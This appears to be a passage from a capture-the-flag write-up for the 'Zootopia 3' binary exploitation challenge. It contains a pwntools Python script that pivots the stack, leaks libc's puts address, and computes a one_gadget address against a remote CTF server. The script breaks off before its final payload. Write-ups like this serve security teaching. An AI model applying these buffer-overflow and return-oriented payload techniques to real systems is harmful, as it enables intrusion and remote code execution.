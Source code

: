 **ACS_IXIA_CTF{we_sense_a_soul_in_search_of_answers}**

<a name="zootopia3"></a>
## Zootopia 3 (75) - Exploit

x86 binary, same as [Zootopia 1](#zootopia1) but the system function is not imported into the binary. We are given the server's libc so we must first leak the libc value and then either call one_gadget or call system from libc.

![](/assets/images/posts/2022-04-17-18-10-01.png)

We now have 3 stages. First we pivot our stack to bss, then we leak the address of puts, then we call one_gadget.

```py
from pwn import *

# sh = process('./zootopia')
sh = remote('ctf-13.security.cs.pub.ro', 35317)

pop_esi_edi_ebp_ret = 0x08049b90
vuln_function = 0x80486dc # 0x8048712

ret = 0x080483fe
call_puts = 0x80486c8
puts_got_plt = 0x804c018

new_ebp = 0x8090000

payload = b''
payload += b'\x00' * (0x90 - len(payload) - 4)
payload += p32(new_ebp)
payload += p32(vuln_function)

sh.sendline(payload)

payload = b''
payload += b'\x00' * (0x90 - len(payload) - 4)
payload += p32(new_ebp + 12)
payload += p32(call_puts)
payload += p32(puts_got_plt)
payload += p32(new_ebp+0x1000)
payload += p32(vuln_function)

sh.sendline(payload)

r = sh.recvuntil(b'\xf7')
puts_libc_leak = int(r[-4:][::-1].hex(),16)
print("Puts leak:", hex(puts_libc_leak))

libc_puts = 0x67d90 # 0x6dc30
libc_base = puts_libc_leak - libc_puts

libc_one_gadget = 0x137eef # 0x14480c # 0x41790 # 0x3d3d0
one_gadget = libc_base + libc_one_gadget

print("Libc base:", hex(libc_base))
print("Libc one_gadget:", hex(one_gadget))

payload = b''

payload += b'\x00' * (0x90 - len(payload) - 4)

PLTGOT = 0x1d8000 # 0x1eb000
```